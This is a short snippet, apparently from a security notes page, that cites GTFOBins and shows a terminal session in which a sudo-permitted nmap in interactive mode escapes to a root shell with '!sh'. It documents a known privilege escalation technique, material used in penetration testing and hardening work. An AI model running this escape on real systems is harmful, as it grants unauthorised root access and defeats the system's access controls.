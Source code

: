 [GTFOBins](https://gtfobins.github.io/gtfobins/nmap/#sudo)

```
bash-3.2$ sudo /usr/bin/nmap --interactive

Starting Nmap V. 4.11 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
sh-3.2# whoami
root
sh-3.2#
```